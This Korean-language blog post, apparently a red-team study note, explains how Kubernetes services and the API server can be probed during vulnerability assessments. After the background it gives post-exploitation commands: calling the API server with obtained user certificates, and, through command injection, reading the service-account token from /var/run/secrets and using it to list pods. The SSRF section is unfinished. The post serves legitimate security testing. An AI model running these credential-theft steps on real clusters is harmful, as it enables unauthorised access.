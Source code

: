 ```yaml
---
title: "[K8S] Security"
# author: wrkholic84
date: 2024-02-08 00:06:00 +0900
categories: [Development, Kubernetes]
tags: [kubernetes, security]
math: true
mermaid: true
# image:
#   path: /commons/devices-mockup.png
#   width: 800
#   height: 500
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


# Kubernetes for RedTeam
Kubernetes에 대한 경험과 이해가 다르고,
보안 취약점 점검 시 관련 내용에 대한 접근이 어려운 이유로,
kubernetes 취약점 발견과 연구를 충분히 수행하기에 어려움이 있음  
이를 위해, 다음 과정을 통해 kubernetes에 대한 정리와 점검 방법에 대한 평준화를 이루고자 함

## Prerequisite Knowledge
### 1.Abstract Concept
![00](/assets/images/posts/20221226Security/00.png)
일반적으로 Kubernets 환경에 구축된 서비스는 위 그림과 같이 Apiserver와 Service 두 개의 접근 경로를 가짐.  
- Apiserver는 kubernetes 환경 전체를 제어
- Service(kuberntes resource)는 웹서비스를 인터넷과 연결해주는 역할 및 파드간 통신에 사용

우리의 목표는 이 두 가지 경로를 통해 취약점을 찾고, 안전한 서비스를 만드는 것.

### 2.ApiServer
**Apiserver**는 kubernetes 자체라고 봐도 무방함. api를 호출하는 방식으로 권한에 따라 kubernetes 전체 환경을 제어할 수 있음. 성공적인 api 호출은 인증 > 권한 > Admission Control 3단계를 모두 통과해야 함.

- Admission Control : 리소스 사용 제한 등  

RBAC이라고 하는 인증 (사용자, 서비스)에 권한(역할)이 부여되는 구조로, 인증 정보를 얻으면 인증에 해당하는 권한을 행사할 수 있음. 권한 및 Admission Control 관리를 위한 별도의 권한(관리자) 및 과정 필요.  

따라서 우리가 접근하여 활용할 수 있는 부분은 **인증**에 한정됨. 

Kubernetes의 인증은 다른 시스템과 마찬가지로 **사용자 인증**과 **서비스 인증**으로 나뉨. 이 두 가지 중 한 가지로 Apiserver를 호출 할 수 있음. 

- 사용자 인증 정보는 운영 환경이나 서비스 환경에 <U>인증서</U> 형태로 존재.  
- 서비스 인증 정보는 애플리케이션(컨테이너) 내 <U>토큰</U> 형태로 존재.

둘 중 하나의 정보를 얻기 위해 노력해야 함.

### 3.Pod Design Pattern
Pod는 Kubernetes에 의해 관리되는 애플리케이션의 최소 단위이며, 여러 컨테이너들의 집합.  
다음과 같은 패턴을 가짐.
![01](/assets/images/posts/20221226Security/01.png)
굳이 패턴 이야기를 하는 이유는 우리가 Command Injection이나 SSRF등의 애플리케이션 취약점을 이용해 접근할 수 있는 자원에 대한 이해를 높이기 위함임.

- Sidecar : Metric, Log 등을 위한 용도로 많이 쓰임. Istio가 대표적. 파일 시스템을 공유하고 있는 부분이 공략 포인트.
- Adapter : 애플리케이션의 출력 포멧을 통일 시키는 용도로 쓰임. 몰라도 됨.
- Ambassador : localhost를 목적지로 통신하는 애플리케이션을 쉽게 배포할 때 쓰임. 예를 들어, 애플리케이션이 localhost:3306(MySQL)과 통신한다면, Ambassador 컨테이너는 이 요청을 받아 필요한 목적지로 연결해줌. SSRF 시 고려해볼 수 있음.

### 4.Container
Pod 안에 정의되며, 다음과 같은 다양한 자원들을 정의하여 사용 가능.
- ServiceAccount : Pod가 ApiServer와 상호 작용할 수 있도록 권한을 부여해 놓은 자격 증명
- Secret : 암호, 토큰 또는 키와 같은 소량의 중요한 데이터를 포함하는 오브젝트
- ConfigMap : Key - Value 값 쌍으로 기밀이 아닌 데이터를 저장하는 데 사용하는 API 오브젝트
- Volume : 영구적으로 사용 가능한 Pod 외 지정된 별도 저장소

취약점 점검을 하다보면 애플리케이션 서버의 쉘을 획득할 수 있는 때가 있는데, 이 때, 이 정보들을 확인할 필요가 있고, 이 정보를 통해 추가 보안 취약점을 찾을 수 있음.

## 2.Call ApiServer
Apiserver에 접근할 수 있는 경로는 두 가지임. 인터넷 또는 Data Plane. 호출 가능한 곳에서 호출하면 되고, 아래 설명은 한 가지씩 나누어 호출해보는 것으로 설명.
### 1.with User Certificate (from Internet)
취약점 등을 통해 사용자 인증서와 키를 얻었다면 apiserver를 호출 할 수 있음
```bash
ubuntu@mypc:~$ curl -k --cert ./user.crt --key ./user.key https:/kubernetes:6443/api
{
  "kind": "APIVersions",
  "versions": [
    "v1"
  ],
  "serverAddressByClientCIDRs": [
    {
      "clientCIDR": "0.0.0.0/0",
      "serverAddress": "x.x.x.x:6443"
    }
  ]
}
```
사용자 인증서와 키는 base64로 인코딩되어 있을 수도 있음
```bash
ubuntu@mypc:~$ cat ./user.crt | base64 | tr -d "\n" 
LS0tLS1C...
ubuntu@mypc:~$ cat "LS0tLS1C..." | base64 -d
-----BEGIN CERTIFICATE-----
MIIDTzCCAjegAwIBAgIQYPmmYnZ...
-----END CERTIFICATE-----
```
### 2.with ServiceAccount Token (in Containers)
Command Injection 등을 통해 컨테이너 내부에 명령 실행을 할 수 있다면,
#### 2.1.get Kubernetes Information from env
```bash
Command Injection : env | grep -i kubernetes
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_PORT_443_TCP_PROTO=tcp
```
#### 2.2.get Kubernetes Information from nslookup
```bash
Command Injection : nslookup kubernetes.default.svc
Server:		10.96.0.10
Address:	10.96.0.10#53

Name:	kubernetes.default.svc.cluster.local
Address: 10.96.0.1
```
#### 2.3.get Kubernetes Information from ServiceAccount
```bash
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUz ...
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
hack8s
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
-----BEGIN CERTIFICATE-----
MIIDB ...
```
안되는 명령들이 있을 수 있지만, token만 확인이 된다면, 아래 명령을 통해 apiserver를 호출해 볼 수 있음.
```bash
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUzI...
Command Injection : curl --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt --header "Authorization: Bearer eyJhbGciOiJSUzI..." -X GET https://kubernetes:6443/api/v1/namespaces/hack8s/pods
{
  "kind": "PodList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "266526"
  },
  "items": [
    {
      "metadata": {
        "name": "busybox",
        ...
      }
    }
  ]
}
```

## 3.SSRF
Kubernetes HelmChart를 획득했다면, 다음 시도를 해보는 것도 도움이 될 수 있음
애플리케이션 취약점 분석을 위해 개발자 도구를 활용하듯, Kubernetes 취약점 분석을 위해 CD(Continuous Delivery) 툴을 활용해보자.
### 3.1.ArgoCD
작성중

